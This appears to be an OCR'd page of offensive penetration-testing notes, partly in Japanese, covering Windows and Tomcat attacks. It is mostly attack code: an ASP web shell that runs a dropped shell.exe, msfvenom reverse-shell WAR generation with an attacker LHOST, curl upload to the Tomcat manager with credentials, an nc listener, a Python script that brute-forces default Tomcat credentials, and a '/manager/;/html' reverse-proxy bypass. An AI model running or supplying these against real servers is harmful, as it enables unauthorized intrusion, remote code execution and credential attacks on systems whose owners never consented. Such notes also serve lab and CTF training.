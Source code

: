 ```
<!–-
<% Response.write("-"&"->")
Response.write("<pre>")
Set wShell1 = CreateObject("WScript.Shell")
Set cmd1 = wShell1.Exec("cmd /c C:\Windows\Temp\shell.exe")
output1 = cmd1.StdOut.Readall()
set cmd1 = nothing: Set wShell1 = nothing
Response.write(output1)
Response.write("</pre><!-"&"-") %>
-–>
```

### Tomcat
```
/usr/share/tomcat9/etc/tomcat-users.xml
```
#### RCE
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.16.6 LPORT=443 -f war -o shell.war

curl --user 'tomcat':'$3cureP4s5w0rd123!' --upload-file shell.war "http://10.10.10.1:8080/manager/text/deploy?path=/shell"

nc -lvnp 443
curl --user 'tomcat':'$3cureP4s5w0rd123!' http://10.10.10.1:8080/shell/
```

#### Tomcat Default PasswdList
https://raw.githubusercontent.com/danielmiessler/SecLists/master/Passwords/Default-Credentials/tomcat-betterdefaultpasslist.txt
```
#!/usr/bin/env python3
import sys
import requests

with open('tomcat-betterdefaultpasslist.txt') as f:
    for line in f:
        c = line.strip().split(":")
        print(c)
        r = requests.get('http://10.10.10.1/manager/html', auth=(c[0], c[1])).status_code
        if r == 200:
            print("")
            print("Found valid credentials \"" + line.strip('\n') + "\"")
            sys.exit(0)
```
ログインに成功したら、msfvenomでwarファイルのペイロードを作成して、アップロードすることでreverse shellを取得。

#### Tomcat + リバースプロキシ(Apache,Nginx,IIS)
```
http://example.com/manager/html
http://example.com/manager/;/html
```
